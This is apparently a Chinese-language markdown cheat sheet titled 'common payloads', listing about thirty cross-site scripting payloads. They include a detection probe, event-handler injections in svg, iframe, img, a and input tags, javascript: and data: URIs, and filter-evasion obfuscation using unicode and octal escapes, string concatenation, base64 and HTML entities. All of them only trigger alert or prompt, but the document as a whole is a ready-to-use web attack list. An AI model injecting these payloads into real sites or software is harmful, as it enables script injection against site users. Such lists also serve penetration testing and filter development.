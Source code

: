 ![](..\img\xss-03.png)

# 常用的payloads

```html
'';!--"<XSS>=&{()}    //检测语句
<scirpt>alert(1);</script>
<script>window[`eval`](`\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029`)</script>
<svg onload=alert(1);>
<svg/onload=window.onerror=eval;throw`=alert\x281\x29`;>
<svg/onload=setTimeout('\141\154\145\162\164\050\061\051')>
<svg/onload=eval('ale'+'rt`123`')>
<svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
<body/onload=alert(1);>
<iframe onload=alert("1");></iframe>
<iframe src=javascript:alert('xss');></iframe>
<iframe src="data:text/html,&lt;script&gt;alert('xss')&lt;/script&gt;"></iframe>
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
<iframe src=java&NewLine;script&colon;prompt&lpar;`xss`&rpar;>
<a href="javascript:alert(`1`);">xss</a>
<a href=java&NewLine;script&colon;prompt&lpar;`xss`&rpar;>1</a>
<a href=javascript:window['ev'+'al']("\x61\x6C\x65\x72\x74\x28\x31\x29")>xss</a>
<a href=javascript:eval(window['at'+'ob']('YWxlcnQoMSk='))>Click</a>
<a/onmouseover=prompt('xss')>xss
<a/onmouseover=location.href='javas'+'cript:ale'+'rt(1)'>xss
<a href="data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==">xss</a>
<img src=1 onerror=alert("1");>
<img src="1" onerror=eval("alert('xss')")> <!--src加伪协议js代码不能触发-->
<input onfocus=alert('1'); autofocus>
<input/onfocus=_=window['al'+'ert'],_(1)>
<input/onclick=location.href='javas'+'cript:ale'+'rt(xss)'>
<input onfocus=\u0061\u006C\u0065\u0072\u0074`1` autofocus>
<input onfocus='setTimeout(String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41))' autofocus>
<input onclick=setTimeout(window.atob('YWxlcnQoMSk=')) >
```